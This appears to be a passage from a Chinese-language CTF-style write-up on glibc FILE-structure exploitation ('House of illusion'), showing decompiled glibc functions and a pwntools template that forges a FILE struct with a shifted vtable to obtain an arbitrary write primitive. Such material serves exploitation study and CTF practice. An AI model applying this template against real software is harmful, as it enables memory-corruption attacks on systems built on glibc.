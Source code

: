 
### 任意写原语2

这一条链子就是 House of illusion 的攻击链。

通过将 `_vtables` 减去 0x8，就能调用 `_IO_new_file_finish`

```c
void __fastcall IO_new_file_finish(FILE_0 *fp, int dummy)
{
  __int64 v2; // rbp

  if ( fp->_fileno != -1 )
  {
    if ( fp->_mode <= 0 )
      IO_new_do_write(fp, fp->_IO_write_base, fp->_IO_write_ptr - fp->_IO_write_base);
    else
      _GI__IO_wdo_write(
        fp,
        fp->_wide_data->_IO_write_base,
        fp->_wide_data->_IO_write_ptr - fp->_wide_data->_IO_write_base);
    if ( (fp->_flags & 0x40) == 0 )
    {
      v2 = *(_QWORD *)&fp[1]._flags;
      if ( (unsigned __int64)(v2 - (_QWORD)_io_vtables) > 0x92F )
        IO_vtable_check();
      (*(void (__fastcall **)(FILE_0 *))(v2 + 0x88))(fp);
    }
  }
  _GI__IO_default_finish(fp, 0);
}
```

恰巧里面刚好也有 `_IO_new_do_write`，由于它是通过 `_vtables + 0x78` 调用函数，所以实际调用 `_IO_file_read`

```c
ssize_t __fastcall _GI__IO_file_read(FILE_0 *fp, void *buf, ssize_t size)
{
  if ( (fp->_flags2 & 2) != 0 )
    return _GI___read_nocancel(fp->_fileno, buf, size);
  else
    return _GI___libc_read(fp->_fileno, buf, size);
}
```

板子如下：

```python
fake_io_read = fit({
    0x00: 0x8000 | 0x40 | 0x1000, #_flags
    0x20: read_addr, #_IO_write_base
    0x28: read_addr + len, #_IO_write_ptr
    0x68: next_FILE, #_chain
    0x70: 0, # _fileno
    0xc0: 0, #_modes
    0xd8: _IO_file_jumps - 0x8, #_vtables
}, filler=b'\x00')
```

